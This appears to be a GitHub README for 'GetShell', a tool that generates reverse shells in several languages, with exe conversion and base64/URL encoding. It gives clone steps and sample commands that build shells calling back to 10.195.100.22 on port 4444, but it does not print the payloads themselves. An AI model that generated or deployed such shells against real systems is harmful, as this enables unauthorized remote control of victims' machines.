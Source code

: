 # Getshell
* Get shell is  generator reverseshell  help you to gett reverseshell have opetion to convert to exe and also encode base64 and url encode 
To gain control over a compromised system, an attacker usually aims to gain interactive shell access for arbitrary command execution. With such access, they can try to elevate their privileges to obtain full control of the operating .
### Support types of reverseshell :-
------------------------------------------------
* Spport type  is :  python
* Support type is :  bash
* Support type is :  perl
* Support type is :  php
* Support type is :  ruby
* Support type is :  netcat
* Support type is :  xterm
* Support type is :  java
* Support type is :  powershell
* Support type is :  js
* Support type is :  exe
## How to use :- 
----------------------------------------
* git clone https://github.com/jac11/GetShell.git
* cd GetShell
* chmod 755 getshell.py
### Command :
---------------------------------
* to chech types reverseshell suport
````
./getshell.py --info
````
* to generate python reverseshell liunx 
```
 ./getshell.py -t python -i 10.195.100.22 -p 4444
```
*  to generate python reverseshell windows
```
./getshell.py -t python -i 10.195.100.22 -p 4444 -W

```
